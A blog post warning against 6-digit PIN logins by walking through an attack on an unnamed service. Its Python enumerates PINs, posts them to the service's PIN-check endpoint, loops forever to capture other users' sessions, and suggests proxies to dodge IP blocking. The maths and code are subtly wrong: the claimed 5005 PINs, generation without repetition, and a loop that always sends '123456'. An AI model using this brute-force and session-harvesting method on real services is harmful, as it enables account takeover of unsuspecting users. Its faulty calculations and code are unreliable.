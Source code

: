 ```yaml
---
layout: post
title:  Why pin login is bad
description: Accessing information using just pin login is dangerous and should be avoided at all costs.
date:   2022-01-04 14:04:00 +0500
categories: pin-login password security hacking
---
```


Accessing information using just pin login is dangerous and should be avoided at all costs.

# What is pin login ?

A pin login is a terminology used by people to provision access to data or an interface using a pin when they don't remember the password or when someone want to get access to account quickly using n digit pin.

# Use case

Recently i discovered one of the services that i was using used a pin login that will allow its customers to login to their account using a 6 digit pin.

Lets call the service xyz.com and the pin login page was available at https://xyz.com/account/pin-login

By entering the generated pin login behind the scenes the interface will allow a user to login to their account.

# Attach strategy

Firstly i need to figure out the valid pin login that i can use to access a user account randomly and save the session for me to access anytime i want. Once i am able to login to the account i can re use the session from a successful attack to access it again when ever i want.

It's a 6 digit pin login hence the combinations for this could be calculated using below formula

![image](https://user-images.githubusercontent.com/21299746/148114971-aefb43f5-724a-4373-bc50-20fd8ad00965.png)

n = 10 since we clearly know that it's a numerical combinations so the allowed total objects were 0-9

r = 6 the length of the pin

With this i can generate 5005 pins that could be tried that have repetitions i.e, a digit could be repeated one or more times.

I can generate the combinations with repetitions using python math module as below

```python
>>> from itertools import combinations
>>> n = range(10)
>>> r = 6
>>> values = list(combinations(n, r))
>>> possible_pins = ["".join(map(lambda x: str(x), item)) for item in values]
>>> possible_pins

['012345', '012346', '012347', '012348', '012349', '012356', '012357', '012358', '012359', '012367', '012368', '012369', '012378', '012379', '012389', '012456', '012457', '012458', '012459', '012467', '012468', '012469', '012478', '012479', '012489', '012567', '012568', '012569', '012578', '012579', '012589', '012678', '012679', '012689', '012789', '013456', '013457', '013458', '013459', '013467', '013468',...'356789', '456789']

```

# Attack

Since attempting to use pins in a browser with user interface is a memory intense operation i want to use something light and fast because we don't know yet how long these pins will be active/expire.

I made a network trace when i hit submit button using a random 6 digit pin and saw that the UI was making a post request to an endpoint https://xyz.com/account/pin-check

I can now use this network call to make a request using python requests module as below

```python
>>> import requests
>>> session = requests.Session()
>>> response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>> response

<Response [401]>

```

Now i will go ahead and try to use all the pins that i have to see if any pin is active and i can use it. I modified the above code to match my needs

```python
>>> successful_attacks = {}
>>> for pin in possible_pins:
>>>     session = requests.Session()
>>>     response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>>     if response.status_code == requests.codes.ok:
>>>         successful_attacks[pin] = session

```

The above code will find an active/valid pin during the time of request. I want to launch this attach throughout the day 24x7 so that if any one who generates the pin anytime i can get the session.

I will just put a while loop to do so.

```python
>>> def attack() -> dict:
>>>     successful_attacks = {}
>>>     for pin in possible_pins:
>>>         session = requests.Session()
>>>         response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>>         if response.status_code == requests.codes.ok:
>>>             successful_attacks[pin] = session
>>>     return successful_attacks
>>> successful_sessions = []
>>> while True:
>>>     successful_sessions += attack().values()

```

Once the above code runs forever i will get all the successful sessions that i can use to get access to the accounts.

# Problems that we have to address along the way

### Too many requests from the same ip address can result in blocked network calls

To resolve this we can use proxy ip addresses to make anonymized network calls using requests

### Time consumed for each attack with series of requests one after another

Now this is a good problem that i want to solve. If each request will take n seconds on an average, then it will take n * 5005 seconds for each attack. There is a possibility that a pin was created and expired during this time. So we have to be fast. To resolve this we can use multi processing or distributed task processing to distribute 5005 tasks evenly so that the results were generated instantly without having to wait on others.

# Conclusion

Pin logins are dangerous. Avoid completely if possible otherwise at least make it very complex so that the combinations are at higher level. You can achieve that by allowing characters, digits, special characters as a part of your pin with a long lengths. Set the pin expiry as small as possible so that a pin could be alive for only a very small time.
